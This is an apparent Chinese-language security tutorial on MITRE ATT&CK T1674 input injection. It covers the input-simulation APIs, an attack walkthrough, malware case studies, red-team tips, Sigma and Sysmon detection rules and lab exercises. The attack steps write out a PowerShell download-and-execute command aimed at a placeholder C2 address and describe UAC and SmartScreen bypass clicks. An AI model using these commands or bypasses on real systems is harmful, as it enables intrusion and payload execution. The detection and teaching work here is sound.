


# 输入注入 (T1674)

## 一句话通俗理解

> **攻击者用程序模拟键盘和鼠标操作，让电脑以为"你"在打字点击，实际上是恶意代码在操控**

## 30秒速查卡

| 维度 | 你需要知道的 |
|------|-------------|
| 这是什么？ | 通过操作系统API（SendInput、CGEvent、xdotool）模拟键盘/鼠标输入，执行任意命令 |
| 为什么危险？ | 绕过UAC弹窗、绕过锁屏、在用户不知情的情况下操控GUI应用，防御软件难以区分真假输入 |
| 谁需要关心？ | 桌面运维团队、安全运维团队、终端用户 |
| 你的第一步防御 | 监控SendInput/CGEvent等输入注入API的调用来源，限制GUI自动化工具执行 |
| 如果只做一件事 | 在EDR中添加对SendInput API调用的监控规则，识别非预期进程发起的输入注入 |

## 难度等级

⭐⭐ 中级：需要了解操作系统输入子系统、GUI自动化API、窗口管理机制。前置知识：Windows API基础、Linux桌面环境概念

## 前置知识检查

**读这个文件需要什么？**

- [ ] 操作系统GUI事件机制（消息队列、事件循环）
- [ ] Windows API基础（特别是User32.dll中的输入函数）
- [ ] Linux X11/Wayland桌面协议概念
- [ ] 基本的编程能力（Python/C能读懂）

## 技术描述

**输入注入**（T1674）是MITRE ATT&CK框架中**执行**战术下的一种技术，攻击者通过操作系统提供的输入模拟API，以编程方式生成键盘按键和鼠标点击事件，让系统认为这些输入来自真实用户。

> 📡 **打个比方**：想象你的电脑有一个"自动操作员"岗位，正常情况下只有你坐在键盘前才能操作。但操作系统留了一个后门API——只要程序调用这个API，就能往键盘事件队列里塞"假的"按键事件。就像有人趁你不在，用一根机械臂按你的键盘，电脑分不清是你按的还是机器按的。

### 具体怎么理解？

不同操作系统提供了不同的输入注入API：

**Windows：**
- `SendInput()` (User32.dll)：最常用的输入注入API，可模拟键盘/鼠标输入
- `keybd_event()` / `mouse_event()`：旧版API，功能相同但已不推荐
- `SetWindowsHookEx()`：安装钩子拦截并修改输入事件

**macOS：**
- `CGEventCreateKeyboardEvent()` / `CGEventCreateMouseEvent()`：Core Graphics框架的输入注入API
- `CGEventPost()`：将合成的事件发送到事件队列

**Linux：**
- X11：`XSendEvent()` / `XTestFakeKeyEvent()`（xte工具基于此）
- Wayland：限制更严格，但可通过`ydotool`（/dev/uinput）实现
- `xdotool`：最常用的命令行GUI自动化工具

**过渡段：** 理解了各平台的API后，我们来看攻击者为什么喜欢用输入注入——因为它能绕过很多基于"用户交互"的安全假设。

### 为什么有效？

这种技术之所以有效，是因为：
1. **绕过UAC**：Windows UAC弹窗通过检测"用户是否点击了是"来判断授权，输入注入可以模拟点击"是"按钮
2. **绕过锁屏**：输入注入可以模拟键盘输入密码解锁屏幕（需已知密码）或模拟鼠标活动防止锁屏
3. **操控GUI安全弹窗**：浏览器下载警告、防火墙授权弹窗等都可通过模拟点击绕过
4. **对抗取证**：模拟的输入事件在日志中看起来像正常用户操作，难以区分

## 真实攻击流程



**步骤详解：**

1. **获取桌面会话** - 恶意程序在用户登录的桌面会话中运行，获取桌面句柄
2. **合成输入事件** - 调用`SendInput()`等API，生成模拟的键盘按键序列（如Win+R打开运行框）
3. **模拟GUI操作** - 通过模拟鼠标点击和键盘输入，操作目标应用程序
4. **输入执行命令** - 模拟键盘输入命令字符串（如`powershell -c IEX(New-Object Net.WebClient).DownloadString('...')`），然后模拟回车键执行
5. **绕过安全弹窗** - 当UAC或防火墙弹窗出现时，模拟鼠标移动到"是"按钮位置并点击

## 攻击流程

### 典型攻击流程

```
恶意程序获取桌面会话 --> 调用 SendInput API 合成输入事件 --> 模拟 Win+R 打开运行框 --> 输入恶意命令执行 --> 模拟点击 UAC 确认按钮绕过弹窗
```



**步骤详解：**

1. **恶意程序获取桌面会话**
   - 通俗描述：攻击者已通过其他方式（如钓鱼、漏洞利用）在目标用户的桌面会话中运行了恶意程序，可调用 GUI 相关 API
   - 技术细节：恶意程序需运行在用户的交互式会话（Session 1+）中，而非 Session 0 服务会话；可通过进程注入到 explorer.exe 或用户启动的应用中获取桌面访问权；USB Rubber Ducky 等硬件设备插入后直接模拟 HID 输入
   - 常用工具：Cobalt Strike、自定义 C++/C# 加载器、USB Rubber Ducky、Hak5 devices

2. **调用 SendInput API 合成键盘/鼠标事件**
   - 通俗描述：使用 Windows `SendInput` API、macOS `CGEvent` 或 Linux `xdotool` 合成键盘按键和鼠标点击事件，模拟真实用户操作
   - 技术细节：Windows `SendInput` 接受 `INPUT` 结构数组，可指定 `INPUT_KEYBOARD`、`INPUT_MOUSE` 类型；macOS 通过 `CGEventCreateKeyboardEvent` 创建事件并 `CGEventPost` 投递；Linux 通过 XTest 扩展或 `/dev/uinput` 注入；合成的输入事件与真实硬件输入难以区分
   - 常用工具：Windows API（user32.dll）、macOS CoreGraphics（CGEvent）、xdotool、libuinput

3. **模拟 Win+R 打开运行框**
   - 通俗描述：合成 Win+R 按键组合，打开 Windows 运行对话框，作为命令执行的入口
   - 技术细节：发送 `VK_LWIN` 按下 + `R` 按下 + `R` 释放 + `VK_LWIN` 释放序列；等待运行框窗口出现（通常 200-500ms）；macOS 上可模拟 Cmd+Space 打开 Spotlight
   - 常用工具：SendInput API、AutoHotkey、xdotool

4. **输入恶意命令回车执行**
   - 通俗描述：在运行框中输入恶意命令（如 PowerShell 下载执行脚本）并按回车执行
   - 技术细节：合成 `powershell -w hidden -c "IEX(New-Object Net.WebClient).DownloadString('http://C2/payload')"` 的按键序列，每个字符发送对应的 `VK_*` 按键事件；最后发送 `VK_RETURN` 执行命令；按键间隔可随机化以模拟真实打字
   - 常用工具：SendInput API、PowerShell、Cobalt Strike

5. **模拟点击 UAC 确认按钮绕过弹窗**
   - 通俗描述：当执行的命令触发 UAC 弹窗时，通过模拟鼠标移动和点击"是"按钮，自动确认提权请求
   - 技术细节：等待 UAC 窗口出现（通过 `FindWindow` 检测 consent.exe）；计算"是"按钮的屏幕坐标；通过 `SendInput` 发送 `MOUSEEVENTF_MOVE` + `MOUSEEVENTF_LEFTDOWN` + `MOUSEEVENTF_LEFTUP` 模拟点击；由于 UAC 在安全桌面（Secure Desktop）运行，需使用 `Win+Shift+左方向键` 等特殊技巧
   - 常用工具：SendInput API、AutoHotkey、UI Automation API

## 真实案例

### 案例1：DarkGate恶意软件（2023-2024年）

- **时间**：2023年-2024年
- **目标**：全球Windows用户（通过钓鱼邮件传播）
- **攻击组织**：DarkGate运营者（商品化恶意软件，多个APT组织购买使用）
- **手法**：DarkGate使用`SendInput()` API模拟键盘输入绕过Windows安全机制。当用户打开恶意VBS脚本后，DarkGate会调用SendInput模拟键盘按下Win+R，输入AutoIt脚本路径并回车执行，绕过Mark-of-the-Web（MotW）和SmartScreen警告
- **影响**：被QakBot、Pikabot等加载器分发，作为最终payload投递Cobalt Strike
- **参考链接**：[Trend Micro DarkGate分析](https://www.trendmicro.com/en_us/research/23/e/darkgate-malware-campaign.html)

### 案例2：Shlayer MacOS恶意软件（2019-2022年）

- **时间**：2019年-2022年
- **目标**：macOS用户（通过伪造的Adobe Flash更新分发）
- **攻击组织**：Shlayer运营者（macOS最广泛的恶意软件家族）
- **手法**：Shlayer使用`CGEventCreateMouseEvent()`和`CGEventPost()`模拟鼠标点击，绕过macOS Gatekeeper安全弹窗。当用户打开被隔离的恶意应用时，Gatekeeper弹窗出现，Shlayer的辅助脚本模拟鼠标点击"打开"按钮绕过验证
- **影响**：感染数百万台Mac设备，曾被Google和Elastic报告为macOS检测量最高的恶意软件
- **参考链接**：[Elastic Shlayer分析](https://www.elastic.co/security-labs/Shlayer-mac-malware)

### 案例3：QBot通过输入注入绕过SmartScreen（2023年）

- **时间**：2023年4月-8月
- **目标**：Windows企业用户
- **攻击组织**：QBot/QakBot运营者（后过渡为DarkCat/Pikabot）
- **手法**：QBot在下载后续payload时遇到Windows SmartScreen警告，使用`SendInput()`模拟鼠标点击"更多信息"→"仍然运行"按钮绕过SmartScreen保护
- **影响**：QBot作为初始访问代理，为BlackBasta、Royal等勒索软件团伙提供入口
- **参考链接**：[Cisco Talos QBot分析](https://blog.talosintelligence.com/qbot-injection-techniques/)

## 红队视角

> ⚠️ **免责声明**：以下内容仅用于合法的安全测试、渗透测试和教育目的。未经授权对他人系统进行测试是违法行为。

### 实战技巧

1. **UAC绕过**：使用`SendInput`模拟Alt+Y快捷键点击UAC弹窗的"是"按钮——UAC弹窗的"是"按钮快捷键是Alt+Y
2. **SmartScreen绕过**：模拟鼠标点击SmartScreen弹窗的"更多信息"按钮，然后点击"仍要运行"
3. **延迟注入**：在注入前添加随机延迟（1-5秒），避免行为模式过于机械被行为分析检测
4. **窗口焦点验证**：注入前用`GetForegroundWindow()`验证目标窗口是否在前台，避免输入发到错误的窗口

### 常用工具

| 工具名称 | 用途 | 平台 | 说明 |
| -------- | ---- | ---- | ---- |
| AutoHotkey | 键盘/鼠标自动化 | Windows | 最流行的Windows GUI自动化工具 |
| pyautogui | Python GUI自动化 | 跨平台 | Python库，支持模拟键盘/鼠标 |
| xdotool | X11自动化 | Linux | Linux X11环境下的输入注入工具 |
| ydotool | Wayland/uinput自动化 | Linux | 支持Wayland的xdotool替代品 |
| cliclick | macOS自动化 | macOS | 命令行macOS鼠标/键盘自动化工具 |

### 注意事项

- SendInput需要目标窗口在前台，注入前需确保焦点正确
- 输入注入在服务进程（Session 0）中无效，必须在交互式桌面会话中运行
- 高DPI显示器下鼠标坐标需要缩放处理

## 蓝队视角

### 检测要点

1. **API调用监控**：监控`SendInput()`、`CGEventPost()`等输入注入API的调用进程
2. **自动化工具检测**：监控AutoHotkey、pyautogui、xdotool等GUI自动化工具的执行
3. **行为模式分析**：分析输入事件的时间间隔——程序注入的输入通常时间间隔固定，人类输入有随机性

### 监控建议

- 使用EDR的API监控功能，对User32.dll的`SendInput`导出函数设置监控点
- 监控AutoHotkey.exe、python.exe+pyautogui等自动化工具的可疑执行
- 分析键盘输入事件的时间分布，检测异常均匀的输入间隔（机器注入特征）
- 配置Windows组策略限制UIPI（用户界面特权隔离）跨完整性级别输入注入

## 避坑指南

防御者最痛苦的教训：**只监控命令行执行而忽略GUI输入注入**。很多EDR只关注进程创建和命令行参数，但通过SendInput注入的命令在进程树中看起来像"用户手动输入的"，完美绕过命令行检测。务必增加对输入注入API调用的监控。

## 检测建议

### 网络层检测

**方法**：输入注入本身不产生网络流量，但注入执行后的命令会产生网络连接

```bash
# 监控输入注入后立即产生的网络连接
# 使用Sysmon关联Event ID 10（进程访问）和Event ID 3（网络连接）
# 在SIEM中关联：SendInput调用 → 进程创建 → 网络连接
```

### 主机层检测

**方法**：监控输入注入API调用

**Windows事件/Sysmon：**
- Sysmon Event ID 10：进程访问（监控对csrss.exe的访问）
- Windows Event ID 4688：进程创建（监控AutoHotkey等自动化工具）

```bash
# 使用ETW监控SendInput API调用
# 需要自定义ETW provider或使用EDR的API监控功能

# Sysmon配置：监控AutoHotkey执行
# 在Sysmon配置中添加：
<RuleGroup name="GUI Automation Tools" groupRelation="or">
  <ProcessCreate onmatch="include">
    <Image condition="contains">autohotkey</Image>
    <Image condition="contains">pyautogui</Image>
  </ProcessCreate>
</RuleGroup>
```

### 应用层检测

**用人话说：** 这条规则在检测程序模拟的键盘/鼠标输入——正常情况下只有你坐在电脑前敲键盘、点鼠标。如果突然有一个后台程序调用了SendInput API往键盘队列里塞按键事件，大概率是恶意软件在"冒充"你操作电脑。DarkGate恶意软件就是用这个手法模拟键盘按下Win+R打开运行框，然后输入命令回车执行，整个过程看起来就像是你自己在操作。检测的关键信号是：非交互式进程调用了输入注入API、短时间内出现规律性极强的键盘输入序列、或者AutoHotkey/pyautogui等自动化工具在非预期场景运行。

**Sigma规则示例（GUI自动化工具执行检测）：**

```yaml
title: 检测可疑GUI自动化工具执行
status: experimental
description: 检测AutoHotkey/pyautogui等GUI自动化工具的执行，可能用于输入注入攻击
logsource:
    category: process_creation
    product: windows
detection:
    selection_tools:
        Image|endswith:
            - '\autohotkey.exe'
            - '\autohotkey64.exe'
            - '\python.exe'
            - '\powershell.exe'
    selection_automation:
        CommandLine|contains:
            - 'pyautogui'
            - 'SendInput'
            - 'ctypes.windll.user32'
    filter_legitimate:
        Image|endswith:
            - '\python.exe'
        CommandLine|contains:
            - 'automation_test'  # 合法自动化测试
    condition: (selection_tools and selection_automation) and not filter_legitimate
fields:
    - Image
    - CommandLine
    - ParentImage
    - User
falsepositives:
    - 软件自动化测试（需白名单）
    - IT运维自动化脚本
level: medium
tags:
    - attack.execution
    - attack.t1674
```

## 缓解措施

### 优先级1：关键措施

**启用UIPI（用户界面特权隔离）**：限制低完整性进程向高完整性进程注入输入

```powershell
# 通过组策略启用UIPI（Windows Vista及以上默认启用）
# 确保UAC设置为"始终通知"或"通知我（当应用尝试更改我的计算机时）"
# 组策略路径：计算机配置 → Windows设置 → 安全设置 → 本地策略 → 安全选项
# 用户账户控制: 以管理员批准模式运行所有管理员
```

### 优先级2：重要措施

**限制GUI自动化工具执行**：通过应用白名单策略限制AutoHotkey等工具的执行

```powershell
# AppLocker规则示例：阻止AutoHotkey执行
# 仅允许签名版本或特定路径的AutoHotkey运行
New-AppLockerPolicy -XmlPolicy C:\AppLocker\ahk_policy.xml -RuleType Path -Path "C:\Program Files\AutoHotkey\*" -Action Allow
```

### 优先级3：建议措施

**部署EDR API监控**：配置EDR监控SendInput等输入注入API的调用

## 动手实验

> ⚠️ **所有实验必须在隔离的实验室环境中进行**

### 实验1：理解输入注入原理（初级）

**目标**：使用Python模拟键盘输入

**步骤**：
1. 安装pyautogui：`pip install pyautogui`
2. 运行以下Python脚本：
```python
import pyautogui
import time
time.sleep(3)  # 留3秒切换到记事本
pyautogui.typewrite('Hello from pyautogui!', interval=0.1)
```
3. 切换到记事本窗口，观察自动输入的文字

**预期输出**：记事本中出现"Hello from pyautogui!"文字

**学习要点**：理解输入注入API能模拟真实键盘输入

### 实验2：UAC绕过实验（中级）

**目标**：理解输入注入绕过UAC的原理

**步骤**：
1. 使用Python+ctypes调用Windows SendInput API
2. 模拟Win+R打开运行对话框
3. 模拟输入`notepad`并回车
4. 观察记事本是否被打开

**预期输出**：记事本自动打开，模拟了手动按Win+R→输入notepad→回车的操作

**学习要点**：理解攻击者如何通过输入注入执行任意命令

### 实验3：防御验证（高级）

**目标**：部署输入注入检测规则，验证检测效果

**步骤**：
1. 配置Sysmon监控AutoHotkey和python.exe执行
2. 运行实验2中的注入脚本
3. 验证SIEM告警是否触发

**预期输出**：SIEM中出现"GUI自动化工具执行"告警

**学习要点**：掌握输入注入检测方法

## 术语解释

| 术语 | 通俗解释 |
|------|---------|
| **输入注入** | 程序模拟键盘/鼠标输入，让电脑以为"用户"在操作 |
| **SendInput** | Windows API，用于向系统输入队列注入键盘/鼠标事件 |
| **UAC** | 用户账户控制，Windows的安全机制，操作需要权限时弹窗确认 |
| **UIPI** | 用户界面特权隔离，限制低权限进程向高权限进程注入输入 |
| **GUI自动化** | 用程序自动操作图形界面，正常用于自动化测试，但也可被滥用 |
| **Core Graphics** | macOS的图形框架，包含CGEvent输入注入API |
| **X11/Wayland** | Linux的两种显示服务器协议，决定了输入注入的实现方式 |

## 参考资料

### 📚 官方文档（深入了解）

- [MITRE ATT&CK - Input Injection (T1674)](https://attack.mitre.org/techniques/T1674/)
- [MSDN - SendInput函数](https://learn.microsoft.com/en-us/windows/win32/api/winuser/nf-winuser-sendinput) - Windows SendInput API文档
- [Apple Developer - CGEvent](https://developer.apple.com/documentation/coregraphics/cgevent) - macOS CGEvent API文档

### 📰 安全报告（真实攻击）

- [Trend Micro - DarkGate分析](https://www.trendmicro.com/en_us/research/23/e/darkgate-malware-campaign.html) - DarkGate使用SendInput绕过安全机制
- [Elastic - Shlayer macOS恶意软件](https://www.elastic.co/security-labs/Shlayer-mac-malware) - Shlayer使用CGEvent绕过Gatekeeper
- [Cisco Talos - QBot注入技术](https://blog.talosintelligence.com/qbot-injection-techniques/) - QBot绕过SmartScreen

### 🔧 工具与资源（动手试试）

- [pyautogui](https://pyautogui.readthedocs.io/) - Python GUI自动化库
- [AutoHotkey](https://www.autohotkey.com/) - Windows自动化脚本工具
- [xdotool](https://github.com/jordansissel/xdotool) - Linux X11自动化工具

### 📚 学习资料（深入了解）

- [Windows输入注入安全](https://learn.microsoft.com/en-us/windows/security/) - Windows安全文档
- [Atomic Red Team](https://github.com/redcanaryco/atomic-red-team) - 检测规则测试框架
